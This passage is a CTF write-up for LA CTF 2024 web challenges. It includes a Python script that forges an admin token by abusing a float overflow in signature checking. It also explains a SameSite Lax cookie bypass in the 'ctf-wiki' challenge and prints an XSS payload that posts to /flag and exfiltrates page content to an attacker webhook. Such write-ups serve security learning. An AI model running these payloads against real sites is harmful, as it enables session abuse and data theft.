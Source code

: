 **Solve script**
```python
import requests
import hashlib
sess = requests.Session()
url = 'https://jwt.chall.lac.tf'

data = '{"username": "data", "age": 10E1000, "role": "admin", "timestamp": 1708246315}'
hexdata = data.encode().hex()
hash_ = lambda a: hashlib.sha256(a.encode()).hexdigest()
sig = hash_(f"{data}:inf")
token = hexdata + "." + sig

res = requests.get(url + "/img", cookies={"token": token})
print(res.text)
```
**Flag:** lactf{pr3v3nt3d_th3_d0s_bu7_47_wh3_c0st}

# Unsolved challenges
Below are the writeup for the challenges that I have attempted but unable to solve.

I want to reference other people's writeups here as a note for future uses.

If you're an author of any of the writeups below, I want to thank you for your insane work!

## ctf-wiki
Reference: 
- [https://github.com/uclaacm/lactf-archive/blob/main/2024/web/ctf-wiki/solve.py](https://github.com/uclaacm/lactf-archive/blob/main/2024/web/ctf-wiki/solve.py)
- [https://youtu.be/ewXEEneicQQ?si=nK1U3XeY8yj2wfk8&t=990](https://youtu.be/ewXEEneicQQ?si=nK1U3XeY8yj2wfk8&t=990)
  
{% include embed/youtube.html id='ewXEEneicQQ' %}

So the challenge is based around the property of `Lax` cookie. According to the [documentation](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie#lax). `Lax` cookies can't be sent through iframe or img tag. But will be sent if the site navigated the user to the site that the cookie belongs to.

In the challenge, only the user that have not login (have no cookie) can trigger the XSS through the `/view` endpoint. But in order to get the flag, the admin user have to sent a POST request to `/flag` with the admin cookie in it.

One way to do it was to let the admin user trigger the XSS through an `iframe` where the cookie is not sent. And the XSS navigate the admin to the cookie's origin, in this case `ctf-wiki.chall.lac.tf`, and the cookie will be sent with the request. After the admin user have navigate to the cookie's origin, we can change the page content via the XSS payload to send a POST request to `/flag` to get the flag and exfiltrate it.

XSS payload:
```html
<script>
let w = window.open('{url}/home');
w.document.write(`<form action="/flag" method="POST" id="flag-form"></form>`);
setTimeout(() => w.document.forms['flag-form'].submit(), 500);
setTimeout(() => fetch('{webhook}', { method: 'POST', mode: 'no-cors', body: JSON.stringify({ content: w.document.body.innerHTML })}), 1500);
</script>
```
